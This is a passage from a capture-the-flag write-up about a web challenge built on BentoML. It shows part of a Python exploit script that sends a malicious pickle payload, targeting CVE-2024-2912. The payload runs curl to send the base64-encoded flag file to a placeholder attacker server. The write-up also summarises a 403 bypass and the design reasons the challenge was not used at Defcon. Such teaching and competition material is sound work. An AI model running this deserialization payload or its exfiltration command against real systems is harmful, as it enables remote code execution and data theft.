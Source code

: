 ```python
            return (os.system, ("curl https://ATTACKER_SERVER/?result=`cat flag.txt | base64`",))

    payload = pickle.dumps(P())

    response = requests.post(f"{BASE_URL}/beta", data=payload, headers={
                             "Content-Type": "application/vnd.bentoml+pickle"}, cookies=session_cookies)
    if response.status_code == 200:
        logger.info("Exploit succeeded.")
    else:
        logger.error("Exploit failed.")

if __name__ == "__main__":
    # Generate random username to avoid conflicts
    username = generate_random_username()
    password = "cryptocat_is_the_best"

    # Step 1: Register
    register_cookies = register_user(username, password)

    # Step 2: Login
    login_cookies = login_user(username, password, register_cookies)

    # Step 3: Grant beta access
    grant_beta_access(username, login_cookies)

    # Step 4: Exploit Python Pickle
    exploit(login_cookies)
```

{% endcode %}

### Summary

The challenge required players to [bypass a 403](https://www.youtube.com/watch?v=PvpXRBor-Jw) restriction, escalating their privileges and gaining access to a beta feature. From there they exploited [CVE-2024-2912](https://nvd.nist.gov/vuln/detail/CVE-2024-2912), a Python pickle deserialization vulnerability found in an open-source machine learning library, gaining RCE.

### Conclusion

If you made it this far, here's some bonus trivia 😃 I mentioned we decided against this challenge for Defcon, here's some of the reasoning:

-   **Closed-source**
    -   Players are more likely to fuzz/brute-force, adding strain on infrastructure
    -   If the infra is down/unstable, players can't run a local instance or review the code
-   **Intentional RCE**
    -   More likely to crash
    -   Players may use shell to interfere with the environment
-   **Infrastructure issues**
    -   We normally host challenges on kubernetes so need to separate DB etc for horizontal scaling, or run multiple (ideally per-team) instances for high-traffic
    -   BentoML image is ~10gb, which often timed out on our deployment system
